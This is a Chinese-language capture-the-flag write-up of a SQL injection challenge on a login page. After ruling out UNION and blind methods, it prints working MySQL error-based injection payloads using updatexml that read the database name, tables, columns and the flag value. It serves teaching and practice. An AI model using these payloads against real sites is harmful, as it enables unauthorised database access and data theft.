# ez_sql revenge

和预热赛的界面一样

我们进入了一个登陆界面

尝试按照预热赛时的思路找到注入点



再查找字段数目





发现字段数依旧是3

那么尝试查找数据



发现之前的方法不奏效了，因为环境没有给出查询结果

所以联合查询注入这条路走不通

那只能考虑其他的注入方法

比如时间盲注和布尔盲注

先试试时间盲注



时间没有变化，仍然是毫秒级别，可能禁用了sleep函数

那布尔盲注呢



发现条件正确与否返回的信息都一样，不具备布尔盲注的条件。

但是从一开始我们就能观察到题目一直给了我们报错信息，那是否意味着我们可以进行报错注入呢？

（希望同学们下来自行学习报错注入和盲注等知识，了解他们运行的原理，而不是照搬payload）

先用updatexml进行测试

1' and (updatexml(1,0x7e,1))#



确实存在报错注入的路径

所以我们可以利用这个方式得到flag

1' and updatexml(1,concat(0x7e,database(),0x7e),1) #



1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #



1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'),0x7e),1) #



1' and updatexml(1,concat(0x7e,(select group_concat(flag_value)from flag),0x7e),1) #



但是我们发现由于报错信息大小的限制flag显示不完全

所以需要用到substr函数来分开读取两部分的flag

1' and updatexml(1,concat(0x7e,(select substr(flag_value,1,32) from flag limit 0,1),0x7e),1) #



1' and updatexml(1,concat(0x7e,(select substr(flag_value,33,32) from flag limit 0,1),0x7e),1) #



到此我们就利用报错信息得到了本题的flag